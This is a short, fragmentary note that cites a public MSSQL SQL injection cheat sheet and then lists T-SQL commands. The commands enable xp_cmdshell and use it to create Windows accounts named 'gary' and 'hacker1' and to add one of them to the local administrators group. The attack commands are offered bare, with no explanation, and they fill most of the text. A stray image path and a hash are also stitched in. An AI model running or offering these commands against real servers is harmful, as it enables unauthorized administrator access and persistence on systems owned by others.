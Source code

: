 http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet



```
exec sp_configure 'show advanced options', 1
go
reconfigure
go
exec sp_configure 'xp_cmdshell', 1
go
reconfigure
go
xp_cmdshell "net user gary password /add"
go
xp_cmdshell "net localgroup administrators gary /add"
go
```



xp_cmdshell "net user hacker1 password /add"
go


26b4cb0930a3e3be4da8e9d738607427
